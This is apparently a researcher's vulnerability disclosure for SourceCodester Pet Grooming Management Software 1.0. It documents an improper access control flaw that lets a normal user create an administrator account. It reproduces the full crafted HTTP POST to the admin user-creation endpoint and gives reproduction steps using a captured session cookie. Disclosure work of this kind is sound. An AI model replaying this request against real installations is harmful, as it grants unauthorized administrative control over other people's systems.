

# Improper Access Control – allows admin creation from user account in Sourcecodester Pet Grooming Management Software

- **Product Name:** The SourceCodester Pet Grooming Management Software 1.0
- **Vendor:** SourceCodester
- **Product Page:**
  https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html

------

## Description

The SourceCodester **Pet Grooming Management Software** is vulnerable to **Improper Access Control**, allowing a normal authenticated user to **create an administrator account** by directly invoking an admin-only endpoint.

The application relies solely on **client-side UI restrictions** to prevent access to administrative functionality. However, **no server-side authorization checks** are implemented to verify the user’s role before processing privileged requests.

------

## Affected Functionality

User Account → Sends admin account creation request → Admin account created

------

## Vulnerable Request

```
POST /pet/pet_grooming/admin/operation/user.php HTTP/1.1
Host: 192.168.136.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:147.0) Gecko/20100101 Firefox/147.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.9
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundaryfd6f77e553f03b2a2f3bc18790118de1
Content-Length: 975
Origin: http://192.168.136.1:8080
Connection: keep-alive
Referer: http://192.168.136.1:8080/pet/pet_grooming/admin/add_user.php
Cookie: PHPSESSID=93ig25tg86m23hgshdk4aupnjb
Upgrade-Insecure-Requests: 1
Priority: u=0, i

------geckoformboundaryfd6f77e553f03b2a2f3bc18790118de1
Content-Disposition: form-data; name="fname"

Admin
------geckoformboundaryfd6f77e553f03b2a2f3bc18790118de1
Content-Disposition: form-data; name="lname"

Two
------geckoformboundaryfd6f77e553f03b2a2f3bc18790118de1
Content-Disposition: form-data; name="email"

admin2@admin.com
------geckoformboundaryfd6f77e553f03b2a2f3bc18790118de1
Content-Disposition: form-data; name="address"

XYZZ
------geckoformboundaryfd6f77e553f03b2a2f3bc18790118de1
Content-Disposition: form-data; name="contact"

9876543216
------geckoformboundaryfd6f77e553f03b2a2f3bc18790118de1
Content-Disposition: form-data; name="password"

admin2123
------geckoformboundaryfd6f77e553f03b2a2f3bc18790118de1
Content-Disposition: form-data; name="group_id"

1
------geckoformboundaryfd6f77e553f03b2a2f3bc18790118de1
Content-Disposition: form-data; name="btn_save"


------geckoformboundaryfd6f77e553f03b2a2f3bc18790118de1--

```

------

## Steps to Reproduce

1. Log in as a **normal user**
2. Capture any authenticated request using **Burp Suite**
3. Copy the session cookie (`PHPSESSID`)
4. Send the crafted admin creation request with the copied cookie
5. Submit the request
6. Log in using the newly created credentials
7. **Admin login is successful**



## Impact

- Full **privilege escalation**
- Complete administrative access
- Ability to manage users, data, and system settings
- High risk of **system compromise**

------

## Discovered By

**Mo Asim** (also known as **Asim Qazi**)
 Student | Security Researcher

- GitHub: https://github.com/Asim-Qazi
- LinkedIn: https://www.linkedin.com/in/masimqazi
